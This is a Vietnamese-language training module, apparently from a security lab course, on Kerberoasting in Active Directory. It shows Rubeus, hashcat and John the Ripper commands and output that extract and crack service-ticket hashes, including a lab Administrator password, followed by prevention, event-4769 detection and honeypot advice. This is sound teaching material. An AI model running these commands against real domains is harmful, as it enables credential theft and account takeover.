





# Kerberoasting


## Mô tả

Trong Active Directory, [Service Principal Name (SPN)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) là một định danh (identifier) duy nhất cho một thể hiện (instance) của dịch vụ. `Kerberos` dùng SPN khi xác thực để gắn một instance dịch vụ với một tài khoản logon của dịch vụ, cho phép ứng dụng client yêu cầu dịch vụ xác thực một tài khoản ngay cả khi client không có tên tài khoản đó. Khi một service ticket `TGS` của Kerberos được yêu cầu, nó được mã hoá bằng NTLM password hash của tài khoản dịch vụ.

`Kerberoasting` là một cuộc tấn công hậu khai thác (post-exploitation) cố gắng khai thác hành vi này bằng cách lấy một ticket và thực hiện crack password offline để `open` (mở) ticket. Nếu ticket mở được, thì password ứng viên vừa mở được ticket chính là password của tài khoản dịch vụ. Mức độ thành công của cuộc tấn công này phụ thuộc vào độ mạnh của password tài khoản dịch vụ. Một yếu tố khác cũng có phần ảnh hưởng là thuật toán mã hoá được dùng khi tạo ticket, với các lựa chọn khả dĩ là:

- `AES`
- `RC4`
- `DES` (gặp trong các môi trường 15+ năm tuổi với ứng dụng legacy từ đầu những năm 2000; ngoài ra thì thuật toán này sẽ bị tắt)

Có sự khác biệt đáng kể về tốc độ crack giữa ba loại này, vì AES crack chậm hơn hai loại kia. Dù thông lệ bảo mật tốt nhất khuyến nghị tắt `RC4` (và cả `DES`, nếu vì lý do nào đó nó đang bật), hầu hết các môi trường lại không làm vậy. Điều đáng lưu ý là không phải tất cả nhà cung cấp ứng dụng đều đã chuyển sang hỗ trợ AES (hầu hết nhưng không phải tất cả). Theo mặc định, ticket do `KDC` tạo ra sẽ dùng thuật toán mã hoá mạnh nhất/cao nhất được hỗ trợ. Tuy nhiên, kẻ tấn công có thể ép hạ cấp (downgrade) trở lại `RC4`.

---

## Attack path (hướng tấn công)

Để lấy các ticket có thể crack được, ta có thể dùng [Rubeus](https://github.com/GhostPack/Rubeus). Khi chạy công cụ với action `kerberoast` mà không chỉ định user cụ thể, nó sẽ trích xuất ticket cho mọi user có đăng ký SPN (trong các môi trường lớn con số này dễ lên tới hàng trăm):

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : eagle.local
[*] Searching path 'LDAP://DC1.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : Administrator
[*] DistinguishedName      : CN=Administrator,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : http/pki1
[*] PwdLastSet             : 07/08/2022 12.24.13
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt


[*] SamAccountName         : webservice
[*] DistinguishedName      : CN=web service,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : cvs/dc1.eagle.local
[*] PwdLastSet             : 13/10/2022 13.36.04
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\spn.txt
PS C:\Users\bob\Downloads>
```


 
Sau đó ta cần chuyển file đã trích xuất chứa các ticket sang VM Kali Linux để crack (ta sẽ chỉ tập trung vào ticket của tài khoản Administrator, dù `Rubeus` đã trích xuất hai ticket).

Ta có thể dùng `hashcat` với hash-mode (tuỳ chọn `-m`) `13100` cho một `Kerberoastable TGS`. Ta cũng truyền vào một file từ điển chứa password (file `passwords.txt`) và lưu kết quả của mọi ticket crack thành công vào file tên `cracked.txt`:

```shell-session
[!bash!]$ hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"

hashcat (v6.2.5) starting

<SNIP>

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$eagle.local$http/pki1@ea...42bb2c
Time.Started.....: Tue Dec 13 10:40:10 2022, (0 secs)
Time.Estimated...: Tue Dec 13 10:40:10 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   143.1 kH/s (0.67ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> brady
Hardware.Mon.#1..: Util: 26%

Started: Tue Dec 13 10:39:35 2022
Stopped: Tue Dec 13 10:40:11 2022
```



(Nếu `hashcat` báo lỗi, ta có thể cần truyền thêm `--force` làm đối số ở cuối lệnh.)

Khi `hashcat` crack xong, ta có thể đọc file 'cracked.txt' để thấy password `Slavi123` ở dạng văn bản rõ (plain text):

```shell-session
[!bash!]$ cat cracked.txt

$krb5tgs$23$*Administrator$eagle.local$http/pki1@eagle.local*$ab67a0447d7db2945a28d19802d0da64$b6a6a8d3fa2e9e6b47dac1448ade064b5e9d7e04eb4adb5d97a3ef5fd35c8a5c3b9488f09a98b5b8baeaca48483df287495a31a59ccb07209c84e175eef91dc5e4ceb9f7865584ca906965d4bff757bee3658c3e3f38b94f7e1465cd7745d0d84ff3bb67fe370a07cb7f5f350aa26c3f292ee1d7bc31b97db7543182a950c4458ee45f1ff58d1c03b713d11a559f797b85f575aabb72de974cf48c80cbbc78db245c496d3f78c50de655e6572627904753fe223148bc32063c6f032ecdcb901012a98c029de2676905aff97024c89c9d62a73b5f4a614dfd37b90a30a3335326c61b27e788619f84dc0993661be9a9d631d8e4d89d70023b27e5756a23c374f1a59ed15dbe28147296fae252a6d55d663d61759d6ee002b4d3814ada1cafb8997ed594f1cfab6cdb503058b73e192228257d834fd420e9dbc5c12cfffb2077aa5f2abef8cac07ee6cdc7630be71ed174ee167ea0d95df14f48e3e576aa4f90b23d44378d4533cbad945b830bf59f2814ff2dec8832561c3c67bd43afebb231d8f16b1f218dfda803619a47ac833330dde29b34eb73a4aba7da93d7664b92534e44beb80b5ad22a5f80d72f5c476f1796d041ade455eee50651d746db75490bd9a7165b2638c79973fc03c63a67e2659e3057fbe2bce22175116a3892e95a418a02908e0daea3293dc01cd172b524217efe56d842cf8b6f369f30657cd40fe482467d4f2a3a7f3c1caf52cf5f2afc7454fb934a0fb13a0da76dbcefecc32da3a719cd37f944ea13589ce373163d56eb5e8c2dc3fb567b1c5959b7e4e3e054ea9a5561776bed7c2d9eb3107645efce5d22a033891758ac57b187a19006abdbe3f5d53edfc09e5359bc52538afef759c37fbe00cc46e4968ec69072761c2c796bd8e924521cc6c3a50fc1db09e5ce1d443ff3962ca1878904a8252d4f827bcb1e6d6c38bf1fd8ccc21d70751008ece94699aa3caa7e671cb48afc8eb3ecbf181c6e0ed52f740f07e87025c28e4fd832192a66bc390923ea397527264fe382056be78d791f80d0343bbf60ffd09dce061825595f69b939eaa517dc89f4527094bda0ae6febb03d8af3fb3e527e8b5501bbd807ed23ed9bcf85b74be699bd42a284318c42d90dbbd4df332d654529b23a5d81bedec69dba2f3e308d7f8db058377055c15b9eae6275f60a7ec1d52077546caa2b78cf798769a0096d590bb5d5d5173a67a32c2eba174e067a9bf8b4e1f190f8816bf2d6741a8bd6e4e1a6e7ca5ac745061a93cde0ab03ee8cf1de80afa0674a4248d38efdc77aca269e2388c43c83a3919ef80e9a9f0005b1b40026fc29e6262091cbc4f062cf95d5d7e051c019cd0bd5e85b8dcb16b17fd92820e1e1581265a4472c3a5d1f42bb2c:Slavi123
```



Ngoài ra, các TGS hash thu được cũng có thể được crack bằng `John The Ripper`:

```shell-session
┌─[eu-academy-2]─[10.10.15.245]─[htb-ac-594497@htb-mw2xldpqoq]─[~]
└──╼ [★]$ sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot

Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Node numbers 1-4 of 4 (fork)
Slavi123         (?)
Slavi123         (?)
```

---

## Prevention (phòng ngừa)

Mức độ thành công của cuộc tấn công này phụ thuộc vào độ mạnh của password tài khoản dịch vụ. Dù ta nên giới hạn số lượng tài khoản có SPN và vô hiệu hoá những SPN không còn dùng/cần nữa, ta vẫn phải đảm bảo chúng có password mạnh. Với mọi dịch vụ hỗ trợ, password nên gồm 100+ ký tự ngẫu nhiên (127 là tối đa AD cho phép), nhằm đảm bảo việc crack password gần như là bất khả thi.

Ngoài ra còn có thứ gọi là [Group Managed Service Accounts](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) (`GMSA`) — một loại tài khoản dịch vụ đặc biệt được Active Directory tự động quản lý; đây là giải pháp hoàn hảo vì các tài khoản này bị ràng buộc với một server cụ thể và không user nào có thể dùng chúng ở nơi khác. Ngoài ra, Active Directory tự động xoay (rotate) password của các tài khoản này thành một giá trị ngẫu nhiên 127 ký tự. Có một điểm cần lưu ý: không phải mọi ứng dụng đều hỗ trợ các tài khoản này, vì chúng chủ yếu hoạt động với các dịch vụ của Microsoft (như `IIS` và `SQL`) và một vài ứng dụng khác đã làm cho việc tích hợp trở nên khả thi. Tuy nhiên, ta nên dùng chúng ở mọi nơi có thể và bắt đầu bắt buộc dùng chúng cho các dịch vụ mới có hỗ trợ, để dần loại bỏ các tài khoản hiện tại.

Khi còn phân vân, đừng gán SPN cho các tài khoản không cần tới chúng. Đảm bảo dọn dẹp định kỳ các SPN được đặt cho các dịch vụ/server không còn hợp lệ.

---
  
## Detection (phát hiện)

Khi một `TGS` được yêu cầu, một event log với ID `4769` sẽ được sinh ra. Tuy nhiên, AD cũng sinh ra đúng event ID này mỗi khi một user cố kết nối tới một dịch vụ, nghĩa là khối lượng (volume) của event này là khổng lồ, và việc chỉ dựa vào riêng nó làm phương pháp phát hiện gần như là bất khả thi. Nếu ta tình cờ ở trong một môi trường mà mọi ứng dụng đều hỗ trợ AES và chỉ sinh ra các ticket AES, thì event ID `4769` sẽ là một chỉ dấu (indicator) tuyệt vời để cảnh báo. Nếu ticket options được đặt là `RC4`, tức là nếu các ticket `RC4` được sinh ra trong môi trường AD (vốn không phải là cấu hình mặc định), thì ta nên cảnh báo và xem xét kỹ. Dưới đây là những gì được ghi log khi ta yêu cầu ticket để thực hiện cuộc tấn công này:



Dù khối lượng chung của event này khá lớn, ta vẫn có thể cảnh báo dựa trên tuỳ chọn mặc định trên nhiều công cụ. Khi ta chạy 'Rubeus', nó sẽ trích xuất một ticket cho `each` (mỗi) user trong môi trường có đăng ký SPN; điều này cho phép ta cảnh báo nếu bất kỳ ai sinh ra hơn mười ticket trong vòng một phút (ví dụ vậy, nhưng có thể ít hơn mười). Event ID này nên được nhóm (group) theo user yêu cầu ticket và theo máy phát ra các request đó. Lý tưởng nhất, ta cần hướng tới việc tạo hai rule riêng biệt cảnh báo cho cả hai. Trong môi trường playground của ta có hai user có SPN, nên khi ta chạy `Rubeus`, AD đã sinh ra các event sau:


---

## Honeypot

`honeypot user` là một lựa chọn phát hiện hoàn hảo để cấu hình trong môi trường AD; đây phải là một user không có mục đích sử dụng/nhu cầu thực sự nào trong môi trường, nên bình thường không có service ticket nào được sinh ra cho nó. Trong trường hợp này, mọi nỗ lực sinh service ticket cho tài khoản này nhiều khả năng là độc hại và đáng để điều tra. Có vài điều cần đảm bảo khi dùng tài khoản này:

- Tài khoản phải là một user tương đối cũ, lý tưởng là một tài khoản đã trở nên "giả tạo"/vô dụng (các kẻ tấn công cao cấp sẽ không yêu cầu ticket cho các tài khoản mới vì chúng nhiều khả năng có password mạnh và có khả năng là honeypot user).
- Password không nên được đổi gần đây. Mục tiêu tốt là 2+ năm, lý tưởng là năm năm trở lên. Nhưng password phải đủ mạnh để kẻ tấn công không crack được.
- Tài khoản phải được gán một số đặc quyền; nếu không, việc lấy ticket cho nó sẽ không gây hứng thú (giả định rằng một đối thủ cao cấp chỉ lấy ticket cho các tài khoản hấp dẫn/có khả năng crack cao hơn, vd: do password cũ).
- Tài khoản phải có đăng ký SPN, và SPN đó trông có vẻ hợp lệ. Các tài khoản `IIS` và `SQL` là lựa chọn tốt vì chúng rất phổ biến.

Một lợi ích bổ sung của honeypot user là mọi hoạt động với tài khoản này, dù là lần đăng nhập thành công hay thất bại, đều đáng ngờ và nên được cảnh báo.

Nếu quay lại môi trường playground và cấu hình user `svc-iam` (có lẽ là một tài khoản IAM cũ còn sót lại) theo các khuyến nghị trên, thì mọi request lấy TGS cho tài khoản đó đều nên được cảnh báo:



---

## Hãy cẩn thận!

Dù chúng tôi đưa ra các ví dụ về phát hiện `honeypot` trong nhiều cuộc tấn công được mô tả, điều đó không có nghĩa là một môi trường AD nên triển khai tất cả chúng. Làm vậy sẽ khiến kẻ tấn công thấy rõ rằng (các) admin AD đã giăng rất nhiều bẫy. Ta phải cân nhắc tất cả các phương pháp phát hiện và áp dụng những phương pháp phù hợp nhất với môi trường AD của mình.
